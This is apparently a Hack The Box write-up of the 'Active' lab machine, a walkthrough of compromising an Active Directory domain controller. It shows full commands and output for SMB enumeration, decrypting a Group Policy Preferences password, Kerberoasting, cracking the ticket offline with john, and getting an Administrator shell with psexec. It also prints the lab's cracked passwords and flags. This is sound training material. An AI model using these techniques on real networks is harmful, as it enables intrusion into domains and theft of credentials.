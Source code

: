 ```yaml
---
layout: post
title: HTB Machine - Active
subtitle: 
cover-img: /assets/img/Scifi.1920x1080.jpg
thumbnail-img: /assets/img/Scifi.1920x1080.jpg
share-img: /assets/img/Scifi.1920x1080.jpg
tags: [ HTB, Active Directory, Hack the Box]
---
```


#### Scanning the target we identify that is a Domain controller. Then we proceed to enumerate the shares with smbclient, we do this with a null session since we dont have credentials (flag -N)
```bash
smbclient -L 10.10.10.100 -N
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
```

### we dont know to which folders we have permissions to. We can see permissions using smbmap with -H flag. Note: we placed the IP inside the etc/hosts file with the name active.htb.

```bash
smbmap -H active.htb                                  
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share 
	Replication                                       	READ ONLY	
	SYSVOL                                            	NO ACCESS	Logon server share 
	Users                                             	NO ACCESS	
```
### We keep diggin into the directory this time using the flag -r (folderpath). We get to a point where we see folders that usually are part of the Sysvol directory (which we dont have access too), but this could be perhaps a copy?

```bash
smbmap  -H active.htb -r Replication/active.htb                                         
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	Replication                                       	READ ONLY	
	.\Replicationactive.htb\*
	dr--r--r--                0 Sat Jul 21 12:37:44 2018	.
	dr--r--r--                0 Sat Jul 21 12:37:44 2018	..
	dr--r--r--                0 Sat Jul 21 12:37:44 2018	DfsrPrivate
	dr--r--r--                0 Sat Jul 21 12:37:44 2018	Policies
	dr--r--r--                0 Sat Jul 21 12:37:44 2018	scripts
```
### We continue enumerating the folders. In one of them there is a Groups.xml file that is very interesting. We donwload it to our attack machine. 

```bash
smbmap  -H active.htb --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
```
### there is a password that is not in clear text. But Microsoft at some point gave away the AES key to encrypt such passwords. There is a ruby utility called gpp-decrypt that uses that key to decrypt the password. We could try it in our hash. 

```bash
gpp-decrypt 'hash_value'
```
### then we got our clear text pass: GPPstillStandingStrong2k18 for the user we find in the XML file too SVC_TGS. We can corroborate this with crackmapexec, if it places a + the user and pass are valid. Then we could list the --shares this user could access. 

```bash
❯ crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p GPPstillStandingStrong2k18 --shares
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18 
SMB         10.10.10.100    445    DC               [+] Enumerated shares
SMB         10.10.10.100    445    DC               Share           Permissions     Remark
SMB         10.10.10.100    445    DC               -----           -----------     ------
SMB         10.10.10.100    445    DC               ADMIN$                          Remote Admin
SMB         10.10.10.100    445    DC               C$                              Default share
SMB         10.10.10.100    445    DC               IPC$                            Remote IPC
SMB         10.10.10.100    445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.10.100    445    DC               Replication     READ            
SMB         10.10.10.100    445    DC               SYSVOL          READ            Logon server share 
SMB         10.10.10.100    445    DC               Users           READ            
```

### again we use smbmap to enumerate the Users folders and go for the user flag in the usual spot. 

```bash
smbmap -H active.htb -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Users/SVC_TGS/Desktop
smbmap -H active.htb -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --download Users/SVC_TGS/Desktop/user.txt
```
### we can try to list all users in the directory but we need valid credentials for that, so we use the ones we found to list the users, groups and descriptions.

```bash
rpcclient -U "" 10.10.10.100 -N -c 'enumdomusers'
Error was NT_STATUS_ACCESS_DENIED

rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c 'enumdomusers'
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[SVC_TGS] rid:[0x44f]

rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c 'enumdomgroups'
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[DnsUpdateProxy] rid:[0x44e]

rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c 'querygroupmem 0x200'
	rid:[0x1f4] attr:[0x7]
	
rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c 'queryuser 0x1f4'
	User Name   :	Administrator
	Full Name   :
	.
	.(redacted)

rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c 'querydispinfo'
index: 0xdea RID: 0x1f4 acb: 0x00000210 Account: Administrator	Name: (null)	Desc: Built-in account for administering the computer/domain
index: 0xdeb RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xe19 RID: 0x1f6 acb: 0x00020011 Account: krbtgt	Name: (null)	Desc: Key Distribution Center Service Account
index: 0xeb2 RID: 0x44f acb: 0x00000210 Account: SVC_TGS	Name: SVC_TGS	Desc: (null)
```
### we can use the rpcenum tool from S4vitar. We need to change the parameters (find replace) the -U to place the credentials and delete the -N. We give execution permissions to the script and run it with the flags we want to check. Basically if we dont want to remember all the commands above it will do the same thing.

```bash
sudo ./rpcenum -e DGroups -i active.htb
```
### ASREPRoast attack: if we didnt have a password we could try to get hashes by requesting a TGT. Basically it is an attack against Kerberos that allows password hashes to be retrieved for users and do not require pre-authentication. If the user has “Do not use Kerberos pre-authentication” enabled, then an attacker can recover a Kerberos AS-REP encrypted with the users RC4-HMAC’d password and he can attempt to crack this ticket offline. So we list our users and place them inside a txt file to use the GetNPUsers tool.

```bash
GetNPUsers.py -no-pass -usersfile users.txt active.htb/
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User SVC_TGS doesn't have UF_DONT_REQUIRE_PREAUTH set
```
### no luck with this. If we need to brute force users in the DC we could use kerbrute. WE have to synchronize the clock with the DC, we do this with "ntpdate 10.10.10.100" that way our machine takes the time from the DC. Being out of sync can cause some issues. i

```bash
./kerbrute_linux_amd64 userenum --dc 10.10.10.100 -d active.htb /usr/share/seclists/Usernames/Names/names.txt
```
### Then we query target domain for SPNs that are running under a user account. We will neet to check if we can get a TGS for the user. if the user has CIFS.

```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40.351723  2023-04-27 15:24:30.307759 
```
### the user is admin so we could send a request and get a hash that we will try to crack offline

   
```bash
❯ GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40.351723  2023-04-27 15:24:30.307759             



[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$5fe8f4270ad1567f0459ff6126e6a02f$9c05cff6a9b4533e77ded9d5632ef98a1940675102e43d8839f0add2c5d2f068b872f2bec193be6d569c240dfe01c82ec9690ba698e7f3796c316ad2248c592c384e809080..(REDACTED)
```
### we place in a file hash and crack with john

```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)     
1g 0:00:00:05 DONE (2023-04-28 07:48) 0.1677g/s 1768Kp/s 1768Kc/s 1768KC/s Tiffani1432..Thrash1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
### Validate credentials: 

```bash
crackmapexec smb 10.10.10.100 -u 'Administrator' -p 'Ticketmaster1968'
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\Administrator:Ticketmaster1968 (Pwn3d!)
```
### then we can login
```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd.exe   
```
### and search for the flag

```bash
type C:\Users\Administrator\Desktop\root.txt
b4589229e8c0992e58226301bf9f68d3
```
